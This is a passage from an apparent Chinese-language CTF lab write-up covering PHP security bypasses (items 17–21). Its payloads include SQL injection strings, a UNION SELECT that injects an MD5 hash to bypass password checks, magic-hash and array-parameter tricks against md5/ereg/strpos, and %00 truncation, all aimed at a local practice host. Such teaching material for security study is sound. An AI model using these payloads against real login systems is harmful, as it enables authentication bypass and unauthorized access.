 ```
$query='SELECT * FROM users WHERE name=\''admin\'\' AND pass=\''or 1 #'\';';
```

`?username=admin\'\' AND pass=\''or 1 #&password=`

## 17 密码md5比较绕过

```
//select pw from ctf where user=''and 0=1 union select  'e10adc3949ba59abbe56e057f20f883e' #
```

`?user='and 0=1 union select  'e10adc3949ba59abbe56e057f20f883e' #&pass=123456`

## 18 md5()函数===使用数组绕过

若为`md5($_GET['username']) == md5($_GET['password'])`
则可以构造：
`http://127.0.0.1/Php_Bug/18.php?username=QNKCDZO&password=240610708`
因为`==`对比的时候会进行数据转换，`0eXXXXXXXXXX` 转成`0`了
也可以使用数组绕过
`http://127.0.0.1/Php_Bug/18.php?username[]=1&password[]=2`


但此处是`===`，只能用数组绕过，`PHP`对数组进行`hash`计算都会得出`null`的空值
`http://127.0.0.1/Php_Bug/18.php?username[]=1&password[]=2`

## 19 ereg()函数strpos() 函数用数组返回NULL绕过

- 方法一：
ereg()正则函数可以用`%00`截断
`http://127.0.0.1/Php_Bug/19.php?password=1%00--`

- 方法二：
将`password`构造一个`arr[]`，传入之后，`ereg`是返回`NULL`的，`===`判断`NULL`和 `FALSE`，是不相等的，所以可以进入第二个判断，而`strpos`处理数组，也是返回`NULL`，注意这里的是`!==`，`NULL!==FALSE`,条件成立，拿到`flag`
`http://127.0.0.1/Php_Bug/19.php?password[]=`

## 20 十六进制与数字比较

这里，它不让输入1到9的数字，但是后面却让比较一串数字，平常的方法肯定就不能行了，大家都知道计算机中的进制转换，当然也是可以拿来比较的，`0x`开头则表示`16`进制，将这串数字转换成`16`进制之后发现，是d`eadc0de`，在开头加上`0x`，代表这个是`16`进制的数字，然后再和十进制的 `3735929054`比较，答案当然是相同的，返回`true`拿到`flag`

```
echo  dechex ( 3735929054 ); // 将3735929054转为16进制
结果为：deadc0de
```
构造：
`http://127.0.0.1/Php_Bug/20.php?password=0xdeadc0de`

## 21 数字验证正则绕过

`0 >= preg_match('/^[[:graph:]]{12,}$/', $password)`
意为必须是12个字符以上（非空格非TAB之外的内容）
